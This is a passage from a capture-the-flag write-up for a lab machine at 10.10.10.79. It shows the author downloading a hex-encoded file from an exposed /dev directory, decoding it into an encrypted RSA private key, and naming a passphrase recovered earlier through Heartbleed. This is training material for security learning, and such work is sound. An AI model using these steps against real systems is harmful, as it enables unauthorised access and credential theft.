 
Grab it, and it decodes to an encrypted RSA cert:

    
    
    root@kali# wget https://10.10.10.79/dev/hype_key --no-check-certificate
    --2018-03-17 15:59:45--  https://10.10.10.79/dev/hype_key
    Connecting to 10.10.10.79:443... connected.
    WARNING: The certificate of ‘10.10.10.79’ is not trusted.
    WARNING: The certificate of ‘10.10.10.79’ hasn't got a known issuer.
    The certificate's owner does not match hostname ‘10.10.10.79’
    HTTP request sent, awaiting response... 200 OK
    Length: 5383 (5.3K)
    Saving to: ‘hype_key’
    
    hype_key                                      100%[==============================================================================================>]   5.26K  --.-KB/s    in 0s
    
    2018-03-17 15:59:45 (38.7 MB/s) - ‘hype_key’ saved [5383/5383]
    
    root@kali# cat hype_key | xxd -r -p
    -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46
    
    DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
    5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
    0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
    Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
    OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
    pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
    QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
    p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
    Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
    t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
    XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
    aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
    +wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
    AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q
    r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
    2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
    e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
    09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
    dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
    cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
    pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
    Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
    suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
    l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
    RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
    -----END RSA PRIVATE KEY-----
    
    root@kali# cat hype_key | xxd -r -p > hype_key_encrypted
    

We can use openssl to try to decrypt. It asks for a password… the decode of
the base64 collected with heartbleed, `heartbleedbelievethehype` works:

